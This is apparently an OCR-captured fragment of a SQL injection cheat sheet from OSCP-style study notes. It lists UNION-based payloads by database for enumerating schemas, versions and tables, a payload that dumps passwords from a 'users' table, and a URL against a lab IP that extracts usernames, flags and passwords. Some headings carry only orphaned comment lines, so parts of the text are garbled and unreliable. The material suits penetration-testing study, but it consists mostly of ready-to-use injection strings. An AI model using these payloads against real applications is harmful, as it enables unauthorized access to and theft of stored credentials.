 ```sql
UNION (SELECT COLUMN_NAME, 2, 3 FROM information_schema.columns WHERE TABLE_NAME='users'
```

  
 
**Oracle**  
```sql
(SELECT banner FROM v$version)
```
	DB metadata  


-- Shows db version  
-- Shows user and hostname of the account interacting w/ the db  
-- Shows name of the db in use  
-- Shows account name used for Windows authentication used by the db  
-- Enumerates through all tables listed in schema  
-- Retrieves column names from the _users_ table  
  
  
  
  
**sqlite**  
```sql
sqlite_schema  
sqlite_master
```
	DB metadata  

```sql
sqlite_version()
```
	Shows db version  


-- Shows user and hostname of the account interacting w/ the db  
-- Shows name of the db in use  
-- Shows account name used for Windows authentication used by the db  

```sql
(SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%')
```
	Enumerates through all tables listed in schema  

```sql
(SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='users')
```
	Retrieves column names from the _user_s table  

```sql
UNION SELECT 1,group_concat(password) FROM users-- -
```
	Dump passwords from _users_ table  
  

worked for OSCP exercise:
```sql
http://192.168.215.52/debug.php?id=1 union select username, flag, time, password, 5 from users
```
